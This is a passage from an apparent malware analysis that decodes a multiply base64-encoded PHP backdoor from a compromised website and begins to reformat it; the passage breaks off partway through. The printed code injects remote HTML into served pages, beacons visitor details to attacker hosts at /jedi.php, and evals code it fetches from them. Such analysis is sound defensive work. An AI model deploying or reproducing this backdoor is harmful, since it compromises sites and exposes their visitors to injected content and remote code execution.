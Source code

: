 So now we know how that big string transforms into something useful. 

## The Payload

Now, what's inside the base64-encoded string? This:

	eval(base64_decode("ANOTHER_HUGE_STRING"));

So they encoded it twice! Well. No. It's actually encoded four times. But after that, this is the beauty it reveals!

	if (!function_exists("GetMama")){  function mod_con($buf){str_ireplace("<body>","<body>",$buf,$cnt_h);if ($cnt_h == 1) {$buf = str_ireplace("<body>","<body>" . stripslashes($_SERVER["good"]),$buf); return $buf;}str_ireplace("</body>","</body>",$buf,$cnt_h);if ($cnt_h == 1) {$buf = str_ireplace("</body>",stripslashes($_SERVER["good"])."</body>",$buf); return $buf;}return $buf;}function opanki($buf){$gz_e = false;$h_l = headers_list();if (in_array("Content-Encoding: gzip", $h_l)) { $gz_e = true;}if ($gz_e){$tmpfname = tempnam("/tmp", "FOO");file_put_contents($tmpfname, $buf);$zd = gzopen($tmpfname, "r");$contents = gzread($zd, 10000000);$contents = mod_con($contents);gzclose($zd);unlink($tmpfname);$contents = gzencode($contents);} else {$contents = mod_con($buf);}$len = strlen($contents);header("Content-Length: ".$len);return($contents);} function GetMama(){$mother = "THE_COMPROMISED_DOMAIN";return $mother;}ob_start("opanki");function ahfudflfzdhfhs($pa){$mama = GetMama();$file = urlencode(__FILE__);if (isset($_SERVER["HTTP_HOST"])){$host = $_SERVER["HTTP_HOST"];} else {$host = "";}if (isset($_SERVER["REMOTE_ADDR"])){$ip = $_SERVER["REMOTE_ADDR"];} else {$ip = "";}if (isset($_SERVER["HTTP_REFERER"])){$ref = urlencode($_SERVER["HTTP_REFERER"]);} else {$ref = "";}if (isset($_SERVER["HTTP_USER_AGENT"])){$ua = urlencode(strtolower($_SERVER["HTTP_USER_AGENT"]));} else {$ua = "";}if (isset($_SERVER["QUERY_STRING"])){$qs = urlencode($_SERVER["QUERY_STRING"]);} else {$qs = "";}$url_0 = "http://" . $pa;$url_1 = "/jedi.php?version=0993&mother=" .$mama . "&file=" . $file . "&host=" . $host . "&ip=" . $ip . "&ref=" . $ref . "&ua=" .$ua . "&qs=" . $qs;$try = true;if( function_exists("curl_init") ){$ch = curl_init($url_0 . $url_1);curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);curl_setopt($ch, CURLOPT_TIMEOUT, 3);$ult = trim(curl_exec($ch));$try = false;} if ((ini_get("allow_url_fopen")) && $try) {$ult = trim(@file_get_contents($url_0 . $url_1));$try = false;}if($try){$fp = fsockopen($pa, 80, $errno, $errstr, 30);if ($fp) {$out = "GET $url_1 HTTP/1.0\r\n";$out .= "Host: $pa\r\n";$out .= "Connection: Close\r\n\r\n";fwrite($fp, $out);$ret = "";while (!feof($fp)) {$ret  .=  fgets($fp, 128);}fclose($fp);$ult = trim(substr($ret, strpos($ret, "\r\n\r\n") + 4));}}  if (strpos($ult,"eval") !== false){$z = stripslashes(str_replace("eval","",$ult)); eval($z); exit();}if (strpos($ult,"ebna") !== false){$_SERVER["good"] = str_replace("ebna","",$ult);return true;}else {return false;}}$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";$father2[] = "REDACTED_IP";shuffle($father2);foreach($father2 as $ur){if ( ahfudflfzdhfhs($ur) ) { break ;}}}

Again, we tidy it a bit and pad it nicely, having as result:

	if (!function_exists("GetMama")) 
	{  
		function mod_con($buf) 
		{ 
			str_ireplace("<body>","<body>",$buf,$cnt_h); 
			if ($cnt_h == 1) 
			{ 
				$buf = str_ireplace("<body>","<body>" . stripslashes($_SERVER["good"]),$buf); 
				return $buf; 
			} 
			str_ireplace("</body>","</body>",$buf,$cnt_h); 
			if ($cnt_h == 1) 
			{ 
				$buf = str_ireplace("</body>",stripslashes($_SERVER["good"])."</body>",$buf); return $buf; 
			} 
			return $buf; 
		} 
		function opanki($buf) 
		{ 
			$gz_e = false; 
			$h_l = headers_list(); 
			if (in_array("Content-Encoding: gzip", $h_l)) 